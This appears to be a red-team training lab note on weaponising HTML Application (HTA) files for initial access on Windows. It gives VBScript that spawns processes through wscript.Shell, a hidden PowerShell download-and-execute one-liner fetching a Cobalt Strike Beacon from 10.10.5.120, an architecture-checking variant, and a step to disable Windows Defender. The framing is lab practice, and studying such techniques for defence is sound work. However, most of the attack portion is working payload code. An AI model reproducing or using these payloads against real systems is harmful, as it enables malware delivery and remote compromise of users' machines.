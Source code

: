 An HTA is a proprietary Windows program whose source code consists of HTML and one or more scripting languages supported by Internet Explorer (VBScript and JScript). The HTML is used to generate the user interface and the scripting language for the program logic. An HTA executes without the constraints of the browser's security model, so it executes as a "fully trusted" application.

An HTA is executed using `mshta.exe`, which is typically installed along with IE. In fact, `mshta` is dependant on IE, so if it has been uninstalled, HTAs will be unable to execute.

To create an HTA, open **Visual Studio Code** on the **attacker-windows** VM and create a new empty file. Save the following content to **C:\\Payloads\\demo.hta**.

```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>
</html>
```

Now browse to this file in explorer and double-click it to run (make sure to select Microsoft HTML Application host if prompted). All being well, a window will appear with the rendered content.

![[Pasted image 20220831113655.png]]

Being HTML you can put anything that you want the user to see - so channel your inner creativity.

Let's add some **VBScript** that will execute something on the user's machine. Launching **calc** is the most 1337 thing you can do, so let's try that.
```html
<html>
  <head>
    <title>Hello World</title>
  </head>
  <body>
    <h2>Hello World</h2>
    <p>This is an HTA...</p>
  </body>

  <script language="VBScript">
    Function Pwn()
      Set shell = CreateObject("wscript.Shell")
      shell.run "calc"
    End Function

    Pwn
  </script>
</html>
```

The `wscript.Shell` object provides access to the Windows shell methods and the `run` method simply allows us to run an application from disk. Run the HTA again and the calculator should appear on the desktop.

![[Pasted image 20220831113720.png]]

Next, we need to replace calc with a Beacon payload. Let's use a PowerShell payload.

In Cobalt Strike, go to **Attacks > Web Drive-by > Scripted Web Delivery (S)** and generate a 64-bit PowerShell payload for your HTTP listener. The URI path can be anything, but I will keep it as **/a**.

This will generate a PowerShell payload and host it on the Team Server so that it can be downloaded over HTTP and executed in-memory. Cobalt Strike will also generate the PowerShell one-liner that will do just that.

![[Pasted image 20220831113731.png]]

![[Pasted image 20220831113736.png]]

Copy/paste this line into the HTA in place of calc and make sure to add another set of double quotation marks around the IEX command. It should look like this:

```shell
shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120:80/a'))"""
```

Before you execute the HTA, go to **View > Web Log** in Cobalt Strike. This allows us to see incoming HTTP requests. Now run the HTA.

```
You will need to disable Windows Defender on the attacker-windows VM first.
```

You should see an entry appear in the weblog for `/a` (or whatever URI you used), but no Beacon will appear. Why is that?  If we use Process Hacker to inspect the running `mshta` process, we can see it's actually a 32-bit application (there is a 64-bit version, but the 32-bit version is the one that seems to run by default).

![[Pasted image 20220831113809.png]]

This means that mshta is also launching the 32-bit version of PowerShell, but the payload we generated was 64-bit.  We can "fix" this by either changing our payload to be 32-bit (not desirable), or to force mshta to use the 64-bit version of PowerShell.

To do the latter, instead of simply putting `powershell.exe` into the HTA, we provide the full path:
```shell
C:\Windows\sysnative\WindowsPowerShell\v1.0\powershell.exe
```

`sysnative` is a sort of alias for `System32` that only exists for 32-bit applications running on a 64-bit OS. Otherwise if you try to access `C:\Windows\System32` in a 32-bit application, it will actually redirect to `C:\Windows\SysWOW64`.  I recommend checking out [this article](https://www.samlogic.net/articles/32-64-bit-windows-folder-x86-syswow64.htm) to understand SysWOW64 better.

A more robust solution could be to perform an architecture check in the HTA or an intermediately PowerShell script and invoke the correct payload for the target.

```vb.net
Function Pwn()
  Set shell = CreateObject("wscript.Shell")

  If shell.ExpandEnvironmentStrings("%PROCESSOR_ARCHITECTURE%") = "AMD64" Then
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/a'))"""
  Else
    shell.run "powershell.exe -nop -w hidden -c ""IEX ((new-object net.webclient).downloadstring('http://10.10.5.120/b'))"""
  End If

End Function
```

> Fix the HTA using the details above to get a 64-bit Beacon running on **attacker-windows**.

